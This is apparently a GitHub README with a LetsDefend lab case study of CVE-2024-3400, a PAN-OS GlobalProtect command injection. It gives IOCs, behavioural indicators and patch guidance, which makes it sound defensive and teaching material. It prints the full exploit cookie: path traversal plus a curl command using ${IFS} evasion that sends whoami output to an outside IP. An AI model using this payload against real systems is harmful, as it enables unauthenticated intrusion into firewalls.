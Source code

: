 # letsdefend-cve2024-3400-case-study
Detection, analysis, and response strategies for CVE-2024-3400 exploitation attempts targeting Palo Alto PAN-OS GlobalProtect portals. Includes IOCs, exploit patterns, and mitigation guidance.


# CVE-2024-3400 Incident Investigation

# 🔍 Overview

This repository contains a detailed investigation and threat analysis of **CVE-2024-3400**, a critical unauthenticated command injection vulnerability affecting **Palo Alto Networks PAN-OS** software, specifically targeting the GlobalProtect portal.

On April 18, 2024, exploitation activity was detected against an internal PAN-OS firewall using the vulnerable `/global-protect/login.esp` endpoint. The attacker used a crafted `SESSID` cookie containing a backtick-executed `curl` command to reach a remote C2 server hosted at `144.172.79.92` (Miami, Florida). The exploit payload leveraged `${IFS}` to bypass simple filters and used PAN-OS’s telemetry directory to stage malicious activity. The firewall responded with a `200 OK`, indicating that the payload was likely executed successfully.

## 📄 Incident Summary

- **Event ID**: 249  
- **Detection Rule**: SOC274 – PAN-OS Command Injection Exploitation  
- **Event Time**: April 18, 2024, 03:09 AM UTC  
- **Hostname**: `PA-Firewall-01`  
- **Destination IP**: `172.16.17.139`  
- **Source IP**: `144.172.79.92`  
- **Request Method**: `POST`  
- **Endpoint**: `/global-protect/login.esp`  
- **Cookie Payload**: `SESSID=./../../../opt/panlogs/tmp/device_telemetry/hour/aaacurl${IFS}144.172.79.92:4444?user=$(whoami)`

- **Malicious Hashes**:  
- **SHA256**: `3de2a4392b8715bad070b2ae12243f166ead37830f7c6d24e778985927f9caac`
- **MD5**: `0c1554888ce9ed0da1583dbdf7b31651`
- **Malicious Script**: `update.py` (executed using `/usr/bin/python3`)

## 🧠 Behavioral Indicators

- Abuse of `SESSID` for command injection
- Use of `${IFS}` for evasion
- Payload staging in `/opt/panlogs/tmp/device_telemetry`
- Involvement of the `dt_send` process post-exploitation
- Network callback to attacker's IP on port `4444`

## 🚨 Impact

- Remote unauthenticated command execution on a core security appliance
- Possible download and execution of attacker-controlled Python payload
- Abuse of PAN-OS internal telemetry mechanisms for staging or exfiltration
- Allowed traffic from a known malicious IP

## ✅ Recommended Response Actions

1. **Patch PAN-OS** to versions: `10.2.9-h1`, `11.0.4-h1`, or `11.1.2-h3`
2. **Block Malicious IP**: `144.172.79.92`
3. **Search for Indicators of Compromise (IOCs)** in logs and file systems
4. **Inspect telemetry directories** for suspicious files or execution behavior
5. **Isolate affected systems** and perform a full forensic analysis

## 📁 Contents

- `logs/`: Parsed and raw detection logs
- `ioc/`: File hashes and IPs associated with the attack
- `analysis/`: Deep dive into exploit behavior and process tracing
- `report/`: Summary and Images of the logs and codes of my investigations

---

## What is CVE-2024-3400
CVE-2024-3400 refers to a critical vulnerability in Palo Alto Networks PAN-OS, specifically affecting GlobalProtect gateways. Here's a breakdown of what is publicly known about it:

## 🔥 CVE-2024-3400 – Palo Alto PAN-OS Command Injection Vulnerability
CVSS Score: 10.0 (Critical)

Published: April 2024

Affected Products: PAN-OS 10.2, 11.0, and 11.1 when GlobalProtect is enabled.

Exploitation: Confirmed in the wild (zero-day)

Vulnerability Type: Unauthenticated command injection

## 🧠 What’s the Risk?
CVE-2024-3400 allows unauthenticated attackers to execute arbitrary commands on the firewall’s operating system. This essentially gives full control over affected devices without needing credentials — a serious breach point for any enterprise relying on Palo Alto firewalls.

## ⚠️ Conditions Required for Exploitation:
GlobalProtect gateway must be enabled.

Specific PAN-OS versions (10.2.x, 11.0.x, 11.1.x).

Exploitable via the internet if not behind additional security layers.

## 🔎 What Attackers Are Doing:
Sending crafted requests to exploit the injection flaw.

Deploying remote shells or downloading second-stage payloads.

Observed behavior includes:

Command execution via crafted URLs

Persistence mechanisms

Lateral movement within networks

## 🛡️ Mitigation & Recommendations:
Patch Immediately: Palo Alto released fixes; upgrade to non-vulnerable versions (e.g., 10.2.9-h1, 11.0.4-h1, 11.1.2-h3 or later).

Check for Indicators of Compromise (IOCs) such as suspicious processes, outbound connections, or unusual CLI history.

Use tools like Shodan or asset inventories to find vulnerable appliances.

## 🛠️ How to Investigate (e.g., via LetsDefend or SIEM):
Look for external IPs accessing GlobalProtect without valid authentication.

Check for suspicious command execution in logs (show system processes, cat /etc/passwd, etc.).

Monitor firewall behavior and alert on anomalous outbound connections.














> This repository serves both as an internal investigation report and an educational resource for defenders seeking to understand real-world exploitation of PAN-OS vulnerabilities. Contributions and additional observations are welcome.

